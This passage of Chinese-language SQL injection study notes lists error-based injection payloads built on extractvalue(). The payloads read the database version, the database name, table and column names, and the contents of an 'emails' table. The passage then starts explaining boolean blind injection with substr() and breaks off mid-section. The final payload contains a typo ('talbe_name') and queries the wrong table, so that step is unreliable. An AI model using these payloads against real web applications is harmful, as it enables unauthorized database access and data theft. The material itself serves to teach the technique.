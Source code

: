 ```sql
1'and extractvalue(1,concat(0x3a,(select version()),0x3a)) --+
```

- 查看数据库名字

```sql
1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
```

- 查看数据库表

```sql
1' and extractvalue(1,concat(0x7e,(select count(table_name) from
information_schema.tables where table_schema=database()),0x7e)) --+
```

- 查看数据库有哪些表

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from
information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
```

- 查看表中的字段名

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from
information_schema.columns where table_schema=database() and table_name='emails'
limit 0,1),0x7e)) --+
```

- 查看表里的数据

```sql
1' and extractvalue(1,concat(0x7e,(select
group_concat(concat_ws('___',id,email_id)) from information_schema.columns where
table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### sql盲注

- 概念:服务器不会直接返回具体的数据库,只会返回程序开发所设定的特定信息
- 页面`不会直接显示`sql执行的结果

### 布尔盲注

- ```sql
  //布尔盲注:在进行sql注入时,web页面只返回True和False
  //通过对返回对返回True或False的情况对数据库的信息进行猜解
  
  //相关函数:substr(),substring(),mid()
  //用于长度截取某一列字段的一部分,在各个数据库中的名称不一样
  //substr(arg1,int1,int2)，int1为截取开始位置(从1开始计算)，int2为截取长度，其余用法完全一样
  1. substr()
  2. substring()
  3. mid()
  select substr(database(),1,3)
  